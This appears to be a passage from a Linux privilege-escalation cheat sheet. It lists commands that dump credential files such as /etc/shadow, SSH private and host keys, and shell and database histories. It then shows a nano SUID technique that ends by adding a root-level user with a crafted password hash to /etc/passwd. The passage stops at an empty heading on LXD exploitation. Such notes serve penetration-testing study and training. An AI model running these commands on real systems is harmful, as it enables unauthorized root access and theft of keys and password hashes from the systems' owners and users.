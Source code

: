 #### :panda_face: Other important information about the system / sentive information.
    at /etc/fstab
    cat /etc/passwd
    cat /etc/group
    cat /etc/shadow
    ls -alh /var/mail/
    ls -ahlR /root/
    ls -ahlR /home/
    cat ~/.bash_history
    cat ~/.nano_history
    cat ~/.atftp_history
    cat ~/.mysql_history
    cat ~/.php_history

#### :panda_face: Private Keys
    cat ~/.ssh/authorized_keys
    cat ~/.ssh/identity.pub
    cat ~/.ssh/identity
    cat ~/.ssh/id_rsa.pub
    cat ~/.ssh/id_rsa
    cat ~/.ssh/id_dsa.pub
    cat ~/.ssh/id_dsa
    cat /etc/ssh/ssh_config
    cat /etc/ssh/sshd_config
    cat /etc/ssh/ssh_host_dsa_key.pub
    cat /etc/ssh/ssh_host_dsa_key
    cat /etc/ssh/ssh_host_rsa_key.pub
    cat /etc/ssh/ssh_host_rsa_key
    cat /etc/ssh/ssh_host_key.pub
    cat /etc/ssh/ssh_host_key

### :panda_face:# Exploiting SUID permissions

- SUID = ‘set user ID ‘ - allows low privileged users to execute a file as the file owner.
    - Example ping and Nmap - need root permissions to open raw network sockets and create network packets.
- The SUID feature enhances security because you are able to grant root privileges for a single application for only when it’s needed. However, SUID can also become a serious security issue when an application is able to execute commands or edit files.
- If the SUID is set as root then commands will also be executed as root.
- Exploiting Nano SUID
    ```
    chmod u+s /bin/nano
    find /* -user root -perm -4000 -print 2>/dev/null
    perl -e 'print crypt("pom", "pom"),"\n"'
    ### Add user to nano /etc/passwd
    pom:poD7u2nSiBSLk:0:0:root:/root:/bin/bash
    ```
#### :panda_face: Mounting the root filesystem in a container - LXD exploitation
